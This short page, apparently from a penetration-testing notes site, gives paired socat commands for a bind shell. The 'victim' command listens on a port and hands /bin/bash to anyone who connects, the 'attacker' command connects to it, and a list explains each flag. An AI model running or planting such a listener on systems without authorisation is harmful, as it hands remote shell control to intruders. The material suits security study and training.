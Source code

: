 **Attacker** Machine &#x20;

```bash
socat  -d -d -d - TCP4:<IP>:<PORT>
```

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

**Victim** Machine &#x20;



```bash
socat -d -d -d tcp4-listen:<PORT<,fork exec:/bin/bash
```

<figure><img src="../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

* `socat`: The command-line utility for bidirectional data transfer between two independent data channels.
* `-d -d -d`: These flags enable different levels of debugging output. Each `-d` increases the verbosity of the debug information.
* `tcp4-listen:<PORT>`: This option tells `socat` to listen for incoming TCP connections on the specified port (`<PORT>`). The `tcp4` part specifies that only IPv4 connections are accepted.
* `fork`: This option tells `socat` to fork a new process for each incoming connection. This allows multiple clients to connect simultaneously, each handled by its own process.
* `exec:/bin/bash`: This part of the command specifies that when a connection is established, `socat` should execute `/bin/bash`. This effectively provides a shell to the connected client.
